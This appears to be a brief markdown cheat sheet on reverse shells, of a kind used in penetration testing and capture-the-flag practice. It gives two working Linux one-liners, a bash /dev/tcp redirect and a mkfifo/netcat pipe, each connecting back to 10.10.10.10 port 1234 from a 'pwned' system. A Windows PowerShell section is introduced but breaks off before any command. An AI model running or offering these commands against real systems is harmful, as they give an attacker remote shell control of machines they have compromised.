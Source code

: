
## Reverse Shells:

### Linux:
###### *To get reverse shell on the pwned linux system:*
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```
*OR*
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

### Windows:
powershell command to get reverse shell on the windows system:

